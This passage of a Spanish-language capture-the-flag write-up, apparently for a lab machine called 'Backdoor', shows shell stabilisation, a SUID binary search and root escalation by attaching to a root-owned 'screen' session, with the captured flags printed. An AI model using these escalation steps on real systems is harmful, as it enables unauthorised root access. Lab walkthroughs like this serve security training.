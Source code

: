 Tras ejecutar el exploit y obtener acceso remoto a la máquina como el usuario `user`, se mejoró la terminal ejecutando `script /dev/null -c bash` para una shell interactiva más estable.
```bash
script /dev/null -c bash
Script started, file is /dev/null
user@Backdoor:/home/user$
user@Backdoor:/home/user$ cat user.txt 
47388d2f9c7d5e9bf1dca6882f9ac95c
```

## Abusing Screen

se realizó una búsqueda de SUID activado para identificar posibles vectores de escalada de privilegios, encontrando varios binarios del sistema con este permiso, incluyendo `screen`. Al inspeccionar los procesos activos, se descubrió un proceso que ejecutaba `screen` como root en un bucle.
```bash
user@Backdoor:/home/user$ cd /
user@Backdoor:/$ find \-perm -4000 2>/dev/null
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/eject/dmcrypt-get-device
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/openssh/ssh-keysign
./usr/bin/passwd
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/at
./usr/bin/su
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/fusermount
./usr/bin/screen
./usr/bin/umount
./usr/bin/mount
./usr/bin/chsh
./usr/bin/pkexec
user@Backdoor:/$ ps -faux | grep screen
root         882  0.0  0.0   2608  1836 ?        Ss   May25   0:37      \_ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
user      258608  0.0  0.0   3304   732 pts/1    S+   03:26   0:00              \_ grep --color=auto screen
```

Aprovechando esto, se adjuntó a esa sesión de `screen` con privilegios de root, logrando así acceso completo al sistema y pudiendo leer la flag de root ubicada en `root.txt`.
```bash
user@Backdoor:/$ screen -x root/
root@Backdoor:~# 
root@Backdoor:~# id
uid=0(root) gid=0(root) groups=0(root) 
root@Backdoor:~# ls                                                        
root.txt                                                                                       
root@Backdoor:~# cat root.txt
2162a07c5cd66714d683b67ec972d65d    
```
